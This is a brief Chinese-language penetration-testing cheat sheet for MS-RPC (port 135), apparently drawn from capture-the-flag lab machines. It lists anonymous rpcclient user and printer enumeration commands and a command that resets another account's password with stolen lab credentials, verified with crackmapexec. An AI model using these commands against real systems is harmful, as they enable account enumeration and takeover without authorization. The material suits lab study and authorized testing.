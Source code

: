 # 135(rpc)

1. 普遍登陆

```bash
基本无需登录，只有枚举出有效信息的功能
```

1. 枚举

```bash
rpcclient -U "" -N 10.129.96.155
enumdomusers
用户枚举出来是有uid的
queryuser 0x1f4 查看rid=0x1f4用户详细信息
querydispinfo  列出所有用户的基本信息，有可能发现暴露的密码
enumprinters   枚举打印机
```

1. 其他服务

```bash
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.129.13.243 -c 'setuserinfo2 audit2020 23 "0xdf!!!"'
检验一下
crackmapexec smb 10.10.10.192 -u audit2020 -p '0xdf!!!'
```
